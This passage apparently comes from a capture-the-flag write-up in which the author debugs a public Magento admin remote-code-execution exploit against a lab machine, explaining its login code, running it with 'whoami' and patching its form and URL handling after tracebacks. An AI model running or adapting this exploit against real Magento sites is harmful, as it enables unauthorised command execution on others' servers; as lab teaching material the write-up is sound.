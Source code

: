 According to the error messages when running the exploit, the problem is somewhere in this block of code. Let's break it down.

- `br = mechanize.Browser()` creates an object that emulates a browser.
- `#br.set_proxies({"http": "localhost:8080"})` forces the browser to use a web proxy, useful for debugging with a tool like Burp.
- `br.set_handle_robots(False)` tells the browser to ignore robots.txt
- `request = br.open(target)` tells our browser to visit target, which is the url supplied to it.
- `br.select_form(nr=0)` chooses the first html form on the webpage
- `br.form.new_control('text', 'login[username]', {'value': username})`, `br.form.fixup()`, `br['login[password]'] = password` set credentials
- `br.method = "POST"`, `request = br.submit()`, and `content = request.read()` log us in to that webpage and saves the output in `content`

It looks like the problem is that our supplied url is wrong. The codeblock wants to browse to a site that takes our admin creds as a login. Changing the url given gives us a different set of errors though.

`python rce.py http://10.10.10.140/index.php/admin "whoami"`
```
Traceback (most recent call last):
  File "37811.py", line 55, in <module>
    br['login[username]'] = username
  File "/usr/lib/python2.7/dist-packages/mechanize/_mechanize.py", line 796, in __setitem__
    self.form[name] = val
  File "/usr/lib/python2.7/dist-packages/mechanize/_form_controls.py", line 1963, in __setitem__
    control = self.find_control(name)
  File "/usr/lib/python2.7/dist-packages/mechanize/_form_controls.py", line 2355, in find_control
    return self._find_control(name, type, kind, id, label, predicate, nr)
  File "/usr/lib/python2.7/dist-packages/mechanize/_form_controls.py", line 2446, in _find_control
    description)
mechanize._form_controls.AmbiguityError: more than one control matching name 'login[username]'
```

"More than one control matching name 'login[username]'". A pretty vague error, but after some debugging, `br.form.new_control('text', 'login[username]', {'value': username})` and `br['login[username]'] = username` are the cause of this conflict. Commenting one out seems to fix the issue.

```
Traceback (most recent call last):
  File "37811.py", line 63, in <module>
    url = url.group(1)
AttributeError: 'NoneType' object has no attribute 'group'
```

Adding some print statements reveals that `url` isn't getting assigned a value. I'm no expert with regex, but I can guess that url needs to be whatever the value of `ajaxBlockUrl` is. Thankfully, `key` does contain a value, so we don't need to mess with that.

```
# url = re.search("ajaxBlockUrl = \'(.*)\'", content)
# url = url.group(1)
  url = "http://10.10.10.140/index.php/admin/dashboard/ajaxBlock/"
  key = re.search("var FORM_KEY = '(.*)'", content)
  key = key.group(1)
```
Now we get a new error.
